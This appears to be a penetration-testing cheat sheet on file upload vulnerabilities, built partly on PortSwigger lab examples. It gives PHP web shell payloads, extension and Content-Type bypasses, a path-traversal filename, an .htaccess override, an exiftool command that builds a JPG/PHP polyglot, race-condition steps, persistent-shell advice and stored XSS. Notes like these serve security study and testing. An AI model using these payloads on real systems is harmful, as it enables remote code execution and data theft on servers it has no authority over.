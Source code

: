 # File upload

## RFI2RCE

### File extension

- `shell.php.jpg`
    - May be interpreted as either php or jpg
- `shell.pHp`
    - [x] Validation code is case-sensitive
    - [x] MIME type that it translates to is case-insensitive
- `shell.php%00.jpg`
    - [x] Validation in frontend
    - [x] High-level frontend (PHP/Java/Python)
    - [x] No validation in backend
    - [x] Low-level backend (C/C++)
- `shell.ph.phpp`
    - [x] Dangerous extensions are removed from the filename

### HTTP Content-Type

Some applications determine the MIME type of the uploaded file based on the Content-Type header in the HTTP request. For example:
```http
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 39

<?php echo system($_GET['command']); ?>
```
Since the uploaded file is a php script, the MIME type is automatically set to application/octet-stream. The application thus refuses the file. However, using Burp Suite to capture the request, we can change it.
```http
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: image/png
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

### HTTP multipart/form-data filename section

Usually, the filename section of a multipart/form-data request is used to determine where to save the file to. This can be exploited via path traversal to save files to directories where user input isn't expected (such as `/var/www/html`) or unprotected directories to bypass lack of execution rights in a directory.
```http
...
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundarytZem8Coz6aZb41pr
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<?php system('cat /home/carlos/secret') ?>
...
```

The above is an example payload from a Portswigger lab. The name of the file we want to upload is `shell.php`. However, we do not have executable rights in the directory where the file is saved. Thus, we can edit the filename to this:

```http
...
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundarytZem8Coz6aZb41pr
Content-Disposition: form-data; name="avatar"; filename="..%2fshell.php"
Content-Type: application/octet-stream

<?php system('cat /home/carlos/secret') ?>
...
```

In the example lab, dot-dot-slash sequences will be filtered out, so we can urlencode the slash to achieve directory traversal. Thus, we have successfully achieved RCE.

### Override .htaccess or web.config

Sometimes, applications will make use of .htaccess in Apache to "map" MIME types to file extensions. If the .htaccess file is overwritten, we can specify arbitrary file extensions to executable MIME types like `application/x-httpd-php`.

```.htaccess
AddType application/x-httpd-php .vim
```

Afterwards, we can just upload a shell.vim file and get RCE.

### Bypass magic bytes/file contents check

Applications may attempt to check the magic bytes of an uploaded file to ensure that the file is safe to upload. However, we can make use of polyglots:

`(with existing jpg named vim.jpg) ./exiftool.exe -Comment="<?php echo 'FLAG:'; system($_GET['cmd']); __halt_compiler(); ?>" ./vim.jpg; mv ./vim.jpg vim.php`

The comment will be executed as it exists as plaintext inside the JPG. It is possible to combine this with [Override .htaccess](#override-.htaccess-or-web.config), setting .jpg to MIME application/x-httpd-php. 

### Race condition

A race condition can occur when the file is first saved onto disk, then validated. To exploit this, send a jpg polyglot file upload request to Burp Intruder. Set Payload Type to 'Null payload' under the Payloads tab, and Payload Options to 'Continue indefinitely'.

Then make a new request to where the jpg polyglot would have been if it wasn't deleted, and send that request to Burp Intruder with the same options as well. 

The last step is to start both attacks, and look out for a 200 status code or some other indicator in the second Intruder attack that determines if the attack was successful. This might take a while depending on how fast the application deletes the file.

It is possible to upload a persistent shell by running a command to move the malicious file to another filename/directory. Then just access the shell through its new filename. This is convienient if you don't want to have to run a new attack each time you need to run a new command.

#### The application is deleting my files too quickly!!

You can try to increase the amount of time taken to process the file by uploading an extremely large file, with the payload at the start. 

#### The application randomizes my directory/filename!!

There's no other way but to bruteforce :( The PHP function `uniqid()` is especially vulnerable to bruteforce as it's pseudo-random.

## RFI but no RCE

### Stored XSS

If the application allows you to upload HTML or SVG, you can upload `<script>` tags to run when someone else visits the site. Note that due to same-origin policy restrictions, these attacks will only work if the uploaded file is served from the same origin to which you uploaded it. 

#### [Same-Origin policy](https://portswigger.net/web-security/cors/same-origin-policy)

Prevents websites from attacking one another by only allowing scripts from a certain source to execute on the same source. Without this policy, a malicious website would be able to read your posts on Facebook or emails in Gmail.

| URL								| Allowed?								|
| --------------------------------- | ------------------------------------- |
| https://example.com/example		| Yes, same scheme, domain and port		|
| https://example.com/example2		| Yes, same scheme, domain and port		|
| http://example.com/example		| No, different scheme and port			|
| https://www.example.com/example	| No, different domain					|
| https://example.com:8080/example	| No, different port (yes for IE)		|

## RFI via PUT

Some applications may not even have a file upload interface, but are configured to parse PUT requests. If appropriate defenses aren't put in place, this can provide another way to achieve RFI2RCE.

> You can try sending OPTIONS requests to check for endpoints that advertise their support for PUT.
